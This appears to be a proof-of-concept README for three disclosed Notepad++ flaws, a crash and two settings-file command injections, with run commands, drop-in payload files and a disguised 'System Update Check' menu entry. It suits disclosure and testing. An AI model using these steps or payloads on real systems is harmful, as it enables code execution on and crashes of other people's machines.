

# Notepad++ PoCs
*CVE-2026-48770 / CVE-2026-48778 / CVE-2026-48800*

Proof-of-concept scripts for three vulnerabilities in Notepad++ <= 8.9.6, patched in v8.9.6.1 (2026-05-26).




---

## Vulnerabilities

| CVE | Type | CVSS | Impact |
|-----|------|------|--------|
| CVE-2026-48770 | OOB Read via `WM_COPYDATA` | 5.0 | DoS / Crash |
| CVE-2026-48778 | OS Command Injection via `config.xml` | 7.8 | RCE |
| CVE-2026-48800 | OS Command Injection via `shortcuts.xml` | 7.8 | RCE |

---

## Requirements

- Windows 10/11 (VM recommended)
- Notepad++ **<= 8.9.6** installed and **not updated**
- Python 3.x (for `.py` scripts)
- PowerShell (built-in, for `.ps1`)

---

## File Structure

```
.
├── README.md
├── poc_CVE-2026-48770.py                    # OOB read crash (ctypes)
├── poc_CVE-2026-48778.py                    # RCE via config.xml
├── poc_CVE-2026-48800.py                    # RCE via shortcuts.xml
└── payloads/
    ├── config.xml                           # Drop-in payload (CVE-2026-48778)
    ├── shortcuts.xml                        # Drop-in payload (CVE-2026-48800)
    └── poc_CVE-2026-48770.ps1               # OOB read crash (PowerShell)
```

---

## CVE-2026-48770 - OOB Read via WM_COPYDATA

A local process in the same Windows session sends a crafted `WM_COPYDATA` message (`dwData=3`) with no NUL terminator. The handler reads past the buffer boundary, producing an access violation (0xc0000005) that crashes Notepad++.

**Trigger:** Notepad++ must be open.

**PowerShell:**
```powershell
# From payloads\
powershell -ExecutionPolicy Bypass -File poc_CVE-2026-48770.ps1
```

**Python:**
```
python poc_CVE-2026-48770.py
```

**Expected output:**
```
[+] Found Notepad++ HWND: 0x000A08B4
[*] Sending malformed WM_COPYDATA (dwData=3, cbData=8192, no NUL terminator)...
[+] SendMessageTimeout returned 0 - Notepad++ likely crashed (OOB read -> 0xc0000005)
```
Notepad++ window disappears. WER (Windows Error Reporting) may trigger.

---

## CVE-2026-48778 - RCE via config.xml

`%APPDATA%\Notepad++\config.xml` is read at startup. The `<GUIConfig name="commandLineInterpreter">` value is passed directly to `ShellExecute()` without validation. Replacing it with any executable achieves RCE when the user clicks **File → Open Containing Folder → cmd**.

### Method A - Python script (recommended)

```
# Inject (backs up original automatically)
python poc_CVE-2026-48778.py --mode direct --payload calc.exe

# Trigger: open Notepad++ -> File -> Open Containing Folder -> cmd
# calc.exe launches instead of cmd.exe

# Restore
python poc_CVE-2026-48778.py --mode direct --restore
```

### Method B - Drop XML file

```
copy payloads\config.xml %APPDATA%\Notepad++\config.xml
# Open Notepad++ -> File -> Open Containing Folder -> cmd
```

### Method C - settingsDir (no AppData write)

```
python poc_CVE-2026-48778.py --mode settingsdir --payload calc.exe
# Prints the notepad++.exe -settingsDir= launch command
# Trigger: File -> Open Containing Folder -> cmd
```

---

## CVE-2026-48800 - RCE via shortcuts.xml

`%APPDATA%\Notepad++\shortcuts.xml` is read at startup. `<Command>` entries under `<UserDefinedCommands>` are added to the **Run** menu and passed directly to `ShellExecute()` without validation. An attacker-controlled entry executes on click.

### Method A - Python script (recommended)

```
# Inject (backs up original automatically)
python poc_CVE-2026-48800.py --mode direct --payload calc.exe --name "System Update Check"

# Trigger: close and reopen Notepad++ -> Run menu -> "System Update Check"
# calc.exe launches

# Restore
python poc_CVE-2026-48800.py --mode direct --restore
```

### Method B - Drop XML file

```
copy payloads\shortcuts.xml %APPDATA%\Notepad++\shortcuts.xml
# Restart Notepad++ -> Run menu -> "System Update Check"
```

### Method C - settingsDir (no AppData write)

```
python poc_CVE-2026-48800.py --mode settingsdir --payload calc.exe
# Prints the notepad++.exe -settingsDir= launch command
# Trigger: Run menu -> "System Update Check"
```

---

## Mitigation

**Update Notepad++ to v8.9.6.1 or later.**  
Download: https://notepad-plus-plus.org/downloads/

---

## Advisory References

| CVE | Advisory |
|-----|----------|
| CVE-2026-48770 | GHSA-r39g-3mcw-xcg2 |
| CVE-2026-48778 | GHSA-7hm3-wp5q-ccv9 |
| CVE-2026-48800 | GHSA-3x3f-3j39-pj3v |

---

> For research and authorized testing purposes only.
